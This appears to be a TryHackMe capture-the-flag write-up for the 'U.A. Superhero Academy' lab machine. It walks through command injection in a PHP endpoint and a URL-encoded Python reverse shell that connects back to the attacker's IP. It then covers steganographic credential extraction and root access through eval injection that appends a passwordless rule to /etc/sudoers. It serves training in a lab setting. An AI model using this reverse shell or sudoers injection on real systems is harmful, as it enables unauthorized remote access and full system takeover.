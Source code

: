 # TryHackMe: U.A. Superhero Academy – Writeup
[![Solved](https://img.shields.io/badge/Solved%20By-Jull3Hax0r-blue?style=flat-square&logo=gnu-bash)](https://tryhackme.com/p/Jull3)
[![TryHackMe Room](https://img.shields.io/badge/TryHackMe-UA%20Hig%20School-success?style=flat-square&logo=tryhackme)](https://tryhackme.com/room/yueiua)
> **Category:** Shell/Enumeration/Priv-Esc  
> **Difficulty:** Beginner → Intermediate  
> **Target IP:** `MACHINE_IP`  
# 🦸‍♂️ U.A. Superhero Academy 


> **"Join us in the mission to protect the digital world of superheroes!**  
> U.A., the most renowned Superhero Academy, is looking for a superhero to test the security of our new site.  
> Our site is a reflection of our school values, designed by our engineers with incredible Quirks.  
> We have gone to great lengths to create a secure platform that reflects the exceptional education of U.A...."

---

## 🛰️ Target

**IP:** `<MACHINE_IP>`

---

## 🔍 Initial Recon

**Nmap:**
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 11:16 CEST
Nmap scan report for 10.10.16.154
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

---

## 🕵️ Web Enumeration & Exploitation

After enumeration, I found `/assets/index.php` vulnerable to **command injection**!

```
http://<MACHINE_IP>/assets/index.php?cmd=whoami
```
> The response is base64-encoded:  
> `d3d3LWRhdGEK` → `www-data`

---

## 🐚 Getting a Shell

I started a listener:
```
nc -lvnp 4444
```

Then sent a **URL-encoded Python reverse shell**:
```
http://<MACHINE_IP>/assets/index.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.21.132.240%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

*Shell received as* **www-data!**

---

## 🗝️ Loot & Lateral Movement

In `/var/www/Hidden_Content/passphrase.txt` I found:
```
QWxsbWlXXXXXXXXXXXXFdmVyISEhCg==
```
Decoded from base64:  
**XXXXXXXXXXXXXX** (Saved for later...)

In `/var/html/assets/images/` I found suspicious images.  
**oneforall.jpg** was corrupted; changing the extension wasn’t enough.

**Fixed the header** using:
```
printf '\xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01' | dd of=oneforall.jpg bs=1 count=12 conv=notrunc
```
<img src="https://jull3.se/extimg/school/oneforall.jpg" alt="oneforall.jpg">

Then extracted hidden data:
```
steghide extract -sf oneforall.jpg
```
As a passphrase i used what was in the file /var/www/Hidden_Content/passphrase.txt

<img src="https://jull3.se/extimg/school/steg.png" alt="steg.png">

Got `creds.txt`:
```
Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:
deku:OneXXxXXXXXXXXXXXonXXXX1/A   
```

Now I could **switch user** to `deku`!

<img src="https://jull3.se/extimg/school/deku.png" alt="deku.png">
---

## ⚡ Privilege Escalation

Check sudo privileges:
```
deku@myheroacademia:~$ sudo -l
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
```

Inspected the script:
```bash
#!/bin/bash
echo "Hello, Welcome to the Report Form"
echo "This is a way to report various problems"
echo "   Developed by the Technical Department of U.A."
echo "Enter your feedback:"
read feedback

if [[ "$feedback" != *"\"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"
    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input."
fi
```

---

### 🛡️ Why feedback.sh Allows Privilege Escalation

The `feedback.sh` script is extremely dangerous from a security perspective because it executes as **root** but allows any user (in this case, `deku`) to supply arbitrary feedback text. This input is then passed directly to `eval`, which interprets and runs the input as shell code:

```bash
eval "echo $feedback"
```

Additionally, the script appends the feedback to a log file as root:

```bash
echo "$feedback" >> /var/log/feedback.txt
```

This combination means that if you can bypass or avoid the blacklist (or if your command does not contain any blacklisted characters), you can inject a payload that performs *any action as root*, such as modifying system files, adding users, or changing sudoers.

**In this challenge, I simply injected:**
```
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```
This line, when executed as root, grants `deku` passwordless sudo privileges for all commands.

**Result:**  
Afterwards, I could run `sudo /bin/bash` as `deku` and instantly become root.

**This is a textbook example of the dangers of using `eval` with user input and running scripts with elevated privileges.** Never trust user input, especially as root!

---

After entering the payload:
```
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```

I could then do:
```
sudo /bin/bash
```
Boom – **root shell**!

<img src="https://jull3.se/extimg/school/root.png" alt="root.png">

---

## 🏆 Root Flag

```
cat /root/root.txt
```
```
THM{XXXXXXXXXXXXXXXXX}
```

---

*Mission complete! UA is now more secure, and I am the Number 1 Hero!*

(Insert screenshot links here if you want!)

---
